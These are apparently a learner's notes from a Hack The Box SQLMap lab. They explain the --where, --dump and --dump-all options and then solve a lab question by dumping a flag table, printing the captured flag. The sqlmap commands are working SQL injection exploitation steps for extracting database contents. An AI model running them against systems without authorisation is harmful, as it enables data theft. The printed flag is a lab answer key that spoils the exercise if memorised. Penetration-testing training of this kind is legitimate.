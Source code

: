 
## Conditional Enumeration

If there is a requirement to retrieve certain rows based on a known `WHERE` condition (e.g. `name LIKE 'f%'`), we can use the option `--where`, as follows:


```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```

---

## Full DB Enumeration

Instead of retrieving content per single-table basis, we can retrieve all tables inside the database of interest by skipping the usage of option `-T` altogether (e.g. `--dump -D testdb`). By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

In such cases, a user is also advised to include the switch `--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.

# Question
---

![](cybersecurity/images/Pasted%2520image%252020250204172820.png)

![](cybersecurity/images/Pasted%2520image%252020250204172853.png)

Let's save case 1 and do the following command:

```
python3 sqlmap.py -r Case1.txt --threads 10 --dump -T flag1 -D testdb -dbms=MySQL --batch
```

We'll get the following output:

```
Database: testdb
Table: flag1
[1 entry]
+----+-----------------------------------------------------+
| id | content                                             |
+----+-----------------------------------------------------+
| 1  | HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n} |
+----+-----------------------------------------------------+
```

Flag is `HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}`